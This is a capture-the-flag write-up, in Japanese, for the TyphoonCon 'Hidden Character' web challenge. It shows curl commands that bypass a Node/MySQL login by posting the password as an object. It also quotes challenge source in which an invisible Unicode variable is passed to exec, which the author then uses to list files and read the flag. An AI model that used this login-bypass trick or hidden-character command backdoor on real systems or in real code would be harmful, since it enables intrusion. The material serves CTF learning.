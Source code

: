 # Hidden Character:Web:200pts
It takes one character [ ] to show you that the path to salvation  
And it takes a hidden character to lead you to the flag  
[https://typhooncon-hiddencharacter.chals.io/](https://typhooncon-hiddencharacter.chals.io/)  
Flag format: SSD{...}  

# Solution
URLのみが渡される。  
アクセスするとログインフォームのようだ。  
Login Form with [password]  
[site1.png](site/site1.png)  
dirbや特殊文字でのログインを試みるも成果がない。  
問題文に書かれている[ ]とページタイトルをヒントだと考え、以下のように配列をPOSTしてみる。  
```bash
$ curl -X POST https://typhooncon-hiddencharacter.chals.io/auth -d "username=admin&password[password]=password"
Incorrect Username and/or Password!
$ curl -X POST https://typhooncon-hiddencharacter.chals.io/auth -d "username=admin&password[a]=password"
error: Error: ER_BAD_FIELD_ERROR: Unknown column 'a' in 'where clause'
```
`password[a]`で謎のエラーが発生した。  
カラムがおかしいといわれているので、存在しそうな`id`で試す。  
```bash
$ curl -X POST https://typhooncon-hiddencharacter.chals.io/auth -d "username=admin&password[id]=passwod"
Found. Redirecting to /home
```
なぜかログインに成功した。  
同様にブラウザのリクエストを配列にすると、リダイレクトされ以下のソースコードが表示された。  
/home  
[site2.png](site/site2.png)  
ログイン処理を見ると、[ここ](https://blog.flatt.tech/entry/node_mysql_sqlinjection)で解説されているSQLiが発生していたようだ。  
隠し機能として、`/home`の応答ヘッダの`PortaSulRetro`を叩くと疎通確認が行える箇所がみられる。  
```js
~~~
app.get("/home", function (request, response) {
  if (request.session.loggedin) {
    var options = { headers: { 'PortaSulRetro': portasulretro } };

    response.sendFile(path.join(__dirname + "/login.js"), options);
  } else {
    response.send("Please login to view this page!");
    response.end();
  }
});

// Check whether we can reach google.com and example.com
app.get(`/${portasulretro}`, async (req, res) => {
  const { timeout,ㅤ} = req.query;
  const checkCommands = [
      'ping -c 1 google.com', 
      'curl -s http://example.com/',ㅤ
  ];

  try {
      const outcomes = await Promise.all(checkCommands.map(cmd => 
              cmd && exec(cmd, { timeout: +timeout || 5_000 })));

      res.status(200).contentType('text/plain');

      var outcomeStdout = '';
      for(i = 0; outcome = outcomes[i]; i ++)  {
        outcomeStdout += `"${checkCommands[i]}": `;
        outcomeStdout += "\n\n";
        outcomeStdout += outcome.stdout.trim();
        outcomeStdout += "\n\n";
      };
      res.send(`outcome ok:\n${outcomeStdout}`);
  } catch(e) {
      res.status(500);
      res.send(`outcome failed: ${e}`);
  }
});
~~~
```
OSコマンドを実行しているため脆弱性がありそうだ。  
注意深く見ると`const { timeout,ㅤ} = req.query;`が不自然な文字を含んでいることがわかる。  
他に同種の文字を探すと、`'curl -s http://example.com/',ㅤ`の行末部分にもみられる。  
JavaScriptは変数としてASCII以外も指定でき、今回はこの不自然な文字が変数として扱われている。  
この部分は`exec`で実行されるため、コマンドを指定してやることで任意の操作が行えることとなる。  
不自然な文字をパーセントエンコーディングすると`%E3%85%A4`となったので、以下のように順を追ってクエリからOSコマンドを実行する。  
初めにログインし、隠し機能のパスを取得する。  
```bash
$ curl -X POST https://typhooncon-hiddencharacter.chals.io/auth -d "username=admin&password[id]=psasswod" -v
~~~
< Set-Cookie: connect.sid=s%3AdoQGC_FVzNhVZys6b49p_Jnd__UyU_5-.W2C1Ig%2Fj0Ja4zX61iI9gb0T7KTuyHMEO0xkAAxdDhCk; Path=/; HttpOnly
~~~
$ curl https://typhooncon-hiddencharacter.chals.io/home -H "Cookie: connect.sid=s%3AdoQGC_FVzNhVZys6b49p_Jnd__UyU_5-.W2C1Ig%2Fj0Ja4zX61iI9gb0T7KTuyHMEO0xkAAxdDhCk" -v
~~~
< PortaSulRetro: 0e0412857621a454
~~~
```
クエリを`?%E3%85%A4=cmd`とし、変数に実行したいコマンドを与える。  
```bash
$ curl https://typhooncon-hiddencharacter.chals.io/0e0412857621a454?%E3%85%A4=ls -H "Cookie: connect.sid=s%3AdoQGC_FVzNhVZys6b49p_Jnd__UyU_5-.W2C1Ig%2Fj0Ja4zX61iI9gb0T7KTuyHMEO0xkAAxdDhCk"
~~~
"ls":

Dockerfile
flag
login.html
login.js
login.sql
node_modules
package-lock.json
package.json
run.sh

$ curl https://typhooncon-hiddencharacter.chals.io/0e0412857621a454?%E3%85%A4=cat%20flag -H "Cookie: connect.sid=s%3AdoQGC_FVzNhVZys6b49p_Jnd__UyU_5-.W2C1Ig%2Fj0Ja4zX61iI9gb0T7KTuyHMEO0xkAAxdDhCk"
~~~
"cat flag":

SSD{bfee01bf8ca5f1766fb91b3b4a0533614da92beb}

```
ファイルからflagが読み取れた。  

## SSD{bfee01bf8ca5f1766fb91b3b4a0533614da92beb}